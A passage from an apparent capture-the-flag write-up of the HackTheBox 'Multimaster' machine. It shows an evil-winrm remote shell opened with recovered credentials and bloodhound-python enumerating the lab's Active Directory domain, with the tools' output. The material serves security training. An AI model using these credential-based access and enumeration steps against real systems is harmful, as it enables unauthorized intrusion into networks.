 As with all AD boxes, I immediately ran "bloodhound-python" to enumerate the domain, and I also managed to WinRM in.

```
┌──(root💀kali)-[/home/kali/HackTheBox/multimaster]
└─# evil-winrm -i 10.10.10.179 -u tushikikatomo -p finance1

Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\alcibiades\Documents>
```

```
┌──(root💀kali)-[/home/kali/HackTheBox/multimaster/temp]
└─# bloodhound-python -u 'tushikikatomo' -p 'finance1' -d megacorp.local -ns 10.10.10.179 -c all

INFO: Found AD domain: megacorp.local
INFO: Connecting to LDAP server: MULTIMASTER.MEGACORP.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: MULTIMASTER.MEGACORP.LOCAL
INFO: Found 27 users
INFO: Connecting to GC LDAP server: MULTIMASTER.MEGACORP.LOCAL
INFO: Found 56 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: MULTIMASTER.MEGACORP.LOCAL
INFO: Done in 00M 21S
```

Putting the data in "bloodhound", we see this:

<img src="https://github.com/susMdT/secondsite.github.io/blob/master/assets/img/multimaster_5.PNG?raw=true" class="mx-auto d-block" unselectable="on" />
